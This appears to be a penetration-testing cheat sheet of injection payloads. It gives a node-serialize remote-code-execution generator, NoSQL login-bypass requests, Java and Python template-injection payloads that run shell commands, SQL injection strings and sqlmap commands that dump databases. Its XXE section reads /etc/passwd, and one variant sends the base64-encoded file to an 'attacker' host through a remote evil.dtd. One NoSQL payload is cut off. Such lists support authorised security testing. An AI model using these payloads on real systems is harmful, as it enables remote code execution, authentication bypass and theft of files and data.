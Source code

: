 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

Basic Test 1
`admin' or 1=1--`

Basic Test 2
`admin' or 1=1#`

## sqlmap

### Request

Initial Tests
`sqlmap -r http-request.txt`

Check User Privs (E.g., FILE)
`sqlmap -r http-request.txt --privileges`

Enumerate databases
`sqlmap -r http-request.txt --dbs`

Get table names from dbname database
`sqlmap -r http-request.txt -D dbname --tables`

Dump the tblname table
`sqlmap -r http-request.txt -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```

